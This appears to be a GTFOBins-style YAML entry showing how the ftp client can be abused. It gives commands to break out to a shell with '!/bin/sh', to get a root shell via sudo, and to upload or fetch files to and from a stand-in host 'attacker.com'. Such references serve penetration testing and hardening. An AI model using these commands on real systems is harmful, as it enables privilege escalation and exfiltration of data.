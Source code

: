 ```yaml
---
functions:
  execute-interactive:
    - code: |
        ftp
        !/bin/sh
  sudo-enabled:
    - code: |
        sudo ftp
        !/bin/sh
  upload:
    - description: Send local file to a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        put file_to_send
  download:
    - description: Fetch a remote file from a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        get file_to_get
---
```


